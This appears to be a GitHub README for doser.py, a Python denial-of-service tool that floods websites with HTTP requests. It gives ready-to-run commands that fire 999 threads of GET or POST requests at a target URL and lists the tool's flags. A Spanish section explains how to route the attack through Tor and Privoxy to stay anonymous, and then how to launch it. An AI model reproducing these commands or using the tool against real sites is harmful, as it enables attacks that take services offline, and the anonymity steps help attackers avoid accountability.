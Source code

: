 # doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Examples
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used
  
  
# Pasos para usar doser.py anonimamente
1-instalar tor

apt-get install tor

2-instalar privoxy

apt-get install privoxy

Editar el archivo /etc/privoxy/config

descomentar las siguientes lineas:
listen-address 127.0.0.1:8118
listen-address [::1]:8118
forward-socks5t / 127.0.0.1:9050 .

3-clonar el siguiente repositorio:
git clone https://github.com/robertofocke/doser.py

4-lanzar el ataque con “python doser-proxy.py”
